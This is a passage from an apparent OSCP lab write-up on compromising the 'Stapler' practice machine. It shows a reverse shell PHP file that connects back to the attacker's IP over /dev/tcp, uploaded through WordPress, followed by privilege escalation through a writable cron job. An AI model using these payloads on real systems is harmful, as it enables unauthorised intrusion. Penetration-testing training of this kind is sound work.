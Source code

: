 Creating a reverse shell php file.

```
echo '<?php exec("/bin/bash -c '\''bash -i >& /dev/tcp/192.168.49.172/80 0>&1'\''");?>' > shell.php
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_22h11m11s_008.png)

Uploading shell.php file to server. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_22h15m35s_009.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_22h15m57s_010.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_22h16m40s_011.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_22h17m41s_012.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_22h18m12s_013.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_22h33m26s_014.png)

Starting a listener on port 80 and then browse to to plugin url ```https://192.168.172.148:12380/blogblog/wp-content/uploads/shell.php```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_22h33m55s_015.png)

We get the shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_22h35m47s_016.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_22h36m5s_017.png)

#### Privilege Escalation

We find a cron job with inappropriate permission settings in the execution of linpeas.sh results.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_23h42m16s_018.png)

We have the permission to modify the job file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_23h45m19s_019.png)

Creating the file with reverse shell command and replcae the original job.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_23h46m49s_020.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_23h52m50s_021.png)

Starting a listener on port 80 and wait for minutes.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Stapler/Stapler_2022.02.24_23h53m3s_022.png)
